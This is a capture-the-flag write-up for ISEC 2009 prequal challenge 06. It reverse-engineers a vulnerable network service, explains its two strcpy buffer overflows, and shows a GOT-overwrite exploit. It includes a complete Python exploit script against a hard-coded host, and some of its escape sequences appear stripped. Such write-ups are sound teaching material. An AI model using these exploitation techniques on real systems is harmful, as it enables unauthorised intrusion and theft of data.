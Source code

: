 ```yaml
---
title: 'ISEC 2009 CTF Prequal &#8211; Challenge 06'
author: rd
excerpt: |
  |
    In the earlier of this month, I helped CLGT team on the second day of CTF prequal game for ISEC 2009 conference. Since I only had a company Windows XP laptop on that day, it was a pain using a FreeBSD 64bit freeshell on geekshells.org to solve freebsd challenges (things like gcc with -m32 didn't work, some weird behaviors when trying to mess around with GOT/PLT/BSS/LIBC in 32-bit compatibility mode, some random users kept sending wall messages in the mid of gdb session because I didn't do mesg -n in the first time). Anyway, here is the write up for challenge 06. Write up for challenge 12 will be posted later.
layout: post

shorturls:
  - 'a:4:{s:9:"permalink";s:70:"https://www.vnsecurity.net/2009/08/isec-2009-ctf-prequal-challenge-06/";s:7:"tinyurl";s:26:"http://tinyurl.com/yakhcon";s:4:"isgd";s:18:"http://is.gd/aOtbh";s:5:"bitly";s:20:"http://bit.ly/8KLfcr";}'
tweetbackscheck:
  - 1408358997
twittercomments:
  - 'a:0:{}'
tweetcount:
  - 0
category:
  - 'CTF - CLGT Crew'
---
```

</p> 
## Summary

The binary [blackhole ][1]contains remote buffer overflow bugs. By exploiting these bugs, we can overwrite a buffer pointer being used as the destination for another* strcpy() *later in the program. Hence, we can write 128 bytes of chosen data to any location we want to.

### Vulnerability</p> 

Reverse C code of the buggy function at address **0x8048A20** 

<pre class="brush: cpp; gutter: true; highlight: [23,33,44,45]; title: ; notranslate" title="">signed int conn_handle(int fd)
{

   unsigned int s;
   int len;
   char buf128[128];
   char destrandbuf12[12];
   char randbuf12[12];
   char destbuf16[16];
   int randnum;
   char *buf_ptr;
   FILE *stream;

   randnum = 0;
   buf_ptr = 0;
   sockfd = fd;
   sendtosocket(fd, "name : ", 7);
   memset(buf128, 0, 128);
   s = time(0);
   srand(s);
   randnum = rand() % 10000;
   readfromsocket(fd, buf128, 32, 10);
   strcpy(destbuf16, buf128);
   memset(randbuf12, 0, 12);
   snprintf(randbuf12, 5, "%d", randnum);
   xor_randnum(randbuf12, destrandbuf12);
   snprintf(buf128, 64, "hello %s , your key : %sn", destbuf16, destrandbuf12);
   len = strlen(buf128);
   sendtosocket(fd, buf128, len);
   sendtosocket(fd, "surisuri : ", 11);
   memset(buf128, 0, 128);
   readfromsocket(fd, buf128, 128, 10);
   if ( strncmp(buf128, randbuf12, 4) )
   {
     stream = fopen("/dev/null", "w");
     fputs(buf128, stream);
     sendtosocket(fd, "blackholen", 10);
     exit(1);
   }
   stream = fopen("./key", "r");
   if ( stream )
   {
     fread(keystr, 32, 1, stream);
     strcpy(randbuf12, buf128);
     strcpy(buf_ptr, buf128);
     printf("abrakatabra the key is %sn", "elohkcalb");
     exit(1);
   }
   return -1;
}
</pre>

There are two buffer overflow bugs:  
    &#8211; 16 bytes overflow at line 23: *strcpy(destbuf16, buf128)*  
    &#8211; 116 bytes overflow at line 44: *strcpy(randbuf12, buf128)</p> 
</i>

### Exploit

In order to reach the second buggy code at line 44, we need to provide the proper input to pass random check *strncmp(buf128, randbuf12, 4)* at line 33. The easiest way to do this is to overwrite the \`***randnum***\` value using the first *strcpy()* at line 23. After that, by using the second overflow bug at line 44, we can overwrite \`***buf_ptr***\` pointer in the subsequence *strcpy(buf_ptr, buf128)* at line 45 to be able to write 128 bytes of input data to any memory address.

It&#8217;s possible to overwrite the GOT table in the way that the server would send the content of *./key* file back to the client via *sendtosocket()*. Since the static variable \`***keystr***\` is used to store the content of *./key* file, we can craft the GOT table to change the program flow to end up with something like 

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">; printf GOT points to 0x08048C63
.text:08048C63                 mov     dword ptr [esp+4], 20h ; size
.text:08048C6B                 mov     dword ptr [esp], offset keystr ; ptr
.text:08048C72                 call    _fread

; fread GOT points to 0x08048B98
.text:08048B98                 mov     eax, [ebp+fd]
.text:08048B9B                 mov     [esp], eax      ; fd
.text:08048B9E                 call    sendtosocket
</pre>

which is equivalent to *sendtosocket(fd, keystr, 32)* so the server will send us back 32 bytes content of ./key file. 

<pre class="brush: plain; gutter: false; title: ; notranslate" title="">$ python 6.py
&lt; name :
&lt; hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa , your key : 0407
&lt; surisuri :
KEY: wowyougotpasswordgonextlevel
</pre></p> 

### Exploit Code</p> 

<pre class="brush: python; gutter: true; title: ; notranslate" title="">#!/usr/bin/env python

import socket

host = '221.143.48.88'
port = 57005
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))

ret = s.recv(1024)
print "&lt; %s" % ret

name = "a"*32 + "n"
s.send(name)

ret = s.recv(1024)
print "&lt; %s" % ret

ret = s.recv(1024)
print "&lt; %s" % ret

# GOT - from 0x0804A2FC waitpid_ptr
# RANDSTR[4] PAD[4] CALL_SENDTOSOCKET[4] PAD[20] BUF_PTR[4]
# PAD[4] CALL_FREAD[4]

RANDSTR = "1633"
CALL_SENDTOSOCKET = "x98x8Bx04x08"	# fread GOT
CALL_FREAD = "x63x8Cx04x08" 	# printf GOT
BUF_PTR = "xFCxA2x04x08"		# waitpid GOT
surisuri = RANDSTR + "A"*4 + CALL_SENDTOSOCKET + "A"*20 
           + BUF_PTR + "A"*4 + CALL_FREAD + "n"
s.send(surisuri)

ret = s.recv(1024)
print "KEY: %sn" % ret

s.close
</pre></p>

 [1]: /vnsec/Members/rd/Files/misc/blackhole